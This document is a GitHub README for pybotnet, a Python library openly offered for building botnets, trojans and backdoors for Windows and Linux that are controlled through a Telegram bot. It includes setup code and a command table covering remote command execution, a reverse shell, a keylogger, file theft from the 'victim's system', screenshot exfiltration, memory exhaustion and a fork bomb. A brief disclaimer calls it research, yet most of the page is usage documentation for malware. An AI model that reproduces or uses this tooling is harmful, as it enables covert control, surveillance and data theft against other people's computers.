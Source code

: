  
 <p align="center">
  <a href='https://github.com/onionj/pybotnet' target='_blank'><img src='https://files.virgool.io/upload/users/271869/posts/wxs2bk9hkqfx/ezoxwssoikqm.jpeg' border='5' alt='trojan horse'/></a>  <h1 align="center">pybotnet</h1>
  <p align="center"> A Python Library for building <b>botnet</b> , <b>trojan</b>  or <b>backdoor</b> for windows and linux with Telegram control panel </p>

  <p align="center">
    <a href="https://github.com/onionj/pybotnet">
      <img src="https://img.shields.io/pypi/v/pybotnet?label=pybotnet" />
    </a>
    <a href="https://github.com/onionj/pybotnet/blob/master/LICENSE">
      <img src="https://img.shields.io/github/license/onionj/pybotnet" />
    </a>
    <a href="https://www.python.org/">
    	<img src="https://img.shields.io/pypi/pyversions/pybotnet" />
    </a>
  </p>
</p>
 
> Disclaimer: Please note that this is a research project. I am by no means responsible for any usage of this tool. Use it on your behalf. 


> [Persian document](https://vrgl.ir/G2i6b)  داکیومنت فارسی


### Features:
* Telegram anti-filter control panel
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* reverse shell
* keylogger
* get target info 
* sleep source by Optional message
* export file to targets system
* import file from target system 
* get screenshot
* Task Scheduler
* Memory Eater
* Open Website
* Play Sound
* ForkBomb

for more, see commands table end of this page 



#### Requirements:

* Python 3.6 or higher
* Telegram account

### Usage:
```
pip install pybotnet
```

```python

from pybotnet import pybotnet
import time

# change TELEGRAM_TOKEN and  ADMIN_CHAT_ID to valid data:

# telegram api token (Get it from the telegram @botfather)
TELEGRAM_TOKEN = '1468299547:ABHs_________MzZcYxF_e00000000000'

# telegram account number ID (get it from @userinfobot)
ADMIN_CHAT_ID = '12345678910'



# * is_sheel:          if you compile code without shell: is_sheel=False
# * show_log:          just for debugging
# * send_system_data:  send system short info in every bot messages in telegram

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID,
                        show_log=True, send_system_data=True, is_shell=True)

delay = 10

while True:
    print('*-*'*15)
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:

> Send this COMMANDs to your api bot in telegram, using the admin account.

>  for run command on one target:  `<Target_MAC_Address> <command>`   `66619484755211 get_info` 


COMMAND | Sample | DO THIS | version | tested on |
--------|--------|---------|--------------------------|-----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep <scconds> <message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd <system command>` | `cmd mkdir new_folder` `cmd cd ..`, `cmd ls` | run system command in shell or cmd (Be careful not to give endless commands like `ping google.com -t`  in windows or `ping google.com` in linux)  TODO:add timeout| 0.07 | windows, linux|
`export_file <link>` | `export_file https://github.com/onionj/pybotnet/archive/refs/heads/master.zip` | target donwload this file and save to script path | 0.14 | windows, linux|
`import_file <file_route>` |`import_file /home/onionj/folder/somting.png` | get a file from target system (limit:5GB & 20min)| 0.17.0 |  windows, linux|
`screenshot` | `screenshot` | Takes a screenshot, uploads it to the online server and return the download link | 0.18.1 |  windows, linux |
`help` | `help` | send commands help | 0.18.5 | windows, linux |
`/start` | `/start` | run `help` command !! | 0.18.7 | windows, linux |
`<Target_MAC_Address> reverse_shell`| `66619484755211 reverse_shell` and `exit` for exit!| start reverse shell on target system | 0.20.1 | windows, linux |
`keylogger` | `keylogger start` and `keylogger stop` to stop the keylogger | Starts a keylogger on victim's system. *keylogger can't handle persian words very correctly* | 0.21.1 | windows, linux 
`scheduler` | `scheduler start ,stop , list` | Adds a schedule | 0.21.3 | windows, linux
`playsound` | `playsound <sound-name>` | Will play a sound . Playsound can only play MP3 or WAV Files. | 0.21.3 | windows
`openurl` | `openurl <url> <how-many-times>` | Will open a url n times. | 0.21.3 | windows, linux
`eatmemory` | `eatmemory <how-much-in-bytes>` | Will eat memory like a hungry trojan | 0.21.3 | windows
`memoryused` | `memoryused` | Will return how much of memory is used in percent | 0.21.3 | windows, linux
`forkbomb` | `forkbomb` | Will fork bomb the system | 0.21.3 | windows

> If you like this repo and find it useful, please consider ★ starring it (on top right of the page) and forking it :)

> [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD)

> Sample GUI Trojan created by pybotnet: [VINET](https://github.com/onionj/vinet)


## Contributors ✨
Thanks goes to these wonderful people

<table>
<td align="center"><a href="https://github.com/onionj"><img src="https://avatars.githubusercontent.com/u/77416478?v=4" width="70px;" alt=""/><br /><sub><b>oNion</b></sub></a><br /></td>
<td align="center"><a href="https://github.com/TorhamDev"><img src="https://avatars.githubusercontent.com/u/87639984?v=4" width="70px;" alt=""/><br /><sub><b> TorhamDev</b></sub></a><br /></td>
<td align="center"><a href="https://github.com/SepehrRasouli"><img src="https://avatars.githubusercontent.com/u/81516241?v=4" width="70px;" alt=""/><br /><sub><b> SepehrRasouli</b></sub></a><br /></td>
</table>

